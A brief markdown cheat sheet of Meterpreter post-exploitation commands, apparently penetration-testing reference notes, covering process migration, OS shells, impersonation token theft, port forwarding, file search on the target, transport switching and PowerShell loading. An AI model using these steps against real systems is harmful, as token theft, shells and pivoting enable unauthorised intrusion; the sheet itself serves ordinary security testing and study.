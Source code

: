 - To migrate a process

```
ps
migrate <pid>
```

- Get an OS shell

```
shell
```

- Steal an impersonation token

```
steal_token
```

- Run a meterpreter script

```
run <script>
```

- networking commands like on unix

```
ipconfig
route
```

- Configure portforwarding
  - -L local host
  - -l local port
  - -p Remote port
  - -r remote host 

```
portfwd 
```

- search for a file on the target host

```
search -f <filename>
```

- Change transport method to switch protocols, a listener must be set up to recieve new connection

```
tansport list
transport add -t <transport type> -l <local IP> -p <local port>
```

## Post Exploitation

- Load the powershell extension, and run a command, load a script or get a powershell shell

```
load powershell
powershell_execute <command>
powershell_import <powershell script>
powershell_shell 
```
